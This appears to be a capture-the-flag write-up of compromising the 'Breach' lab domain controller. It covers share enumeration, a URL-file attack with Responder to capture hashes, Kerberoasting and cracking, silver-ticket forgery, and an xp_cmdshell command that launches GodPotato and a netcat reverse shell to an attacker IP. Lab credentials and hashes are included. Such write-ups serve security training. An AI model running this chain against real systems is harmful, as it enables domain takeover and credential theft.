


## INFO

```
[*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


Guest Share is accessible with write permission !

```
└─# crackmapexec smb 10.10.119.39 -u guest -p '' --shares
```





## URL FILE ATTACK

We can perform this attack when we got write access to any share.

Interested Victim clicks the url file , Boom We get  [hash](https://github.com/xct/hashgrab) !











If someone clicks on the url we get hash ! Start Responder !

```
└─# responder -I tun0 -v
```




If they use simple password , thats good !




## SVC_MSSQL

Cool ! We got domain user and a lot of possibilities to enumerate.

```
└─# impacket-GetUserSPNs breach.vl/julia.wong:Computer1 -dc-ip 10.10.119.39 -request
```




Cracking the SPN . 

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
```




SERVICE TICKET CHA BHANNE --> GENERATE FUCKING SILVER TICKET !!


Convert password --< hash
```
└─# crackmapexec smb 10.10.119.39 -u svc_mssql -H 69596C7AA1E8DAEE17F8E78870E25A5C
```


Lookup for the domain sids:

```
└─# impacket-lookupsid breach.vl/svc_mssql:Trustno1@10.10.119.39 -domain-sids
```


Generate a Silver Ticket !
```
└─# impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQLSvc/breach.vl' Administrator
```

Export It !
```
└─# export KRB5CCNAME=Administrator.ccache
```


Explore!
```
┌──(root㉿BHASHMA)-[~/BACK_TO_THE_GAME/BREACH]
└─# impacket-mssqlclient breach.vl -k -no-pass 
```





Upload GodPotato and nc for the attack !

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell C:\Users\Public\God.exe -cmd "cmd /c C:\Users\Public\nc64.exe 10.8.0.148 1337 -e C:\windows\system32\cmd.exe"
```




WE OWN THE DC ! FOR PERSISTENCE WE CAN RUN ANY C2 !!


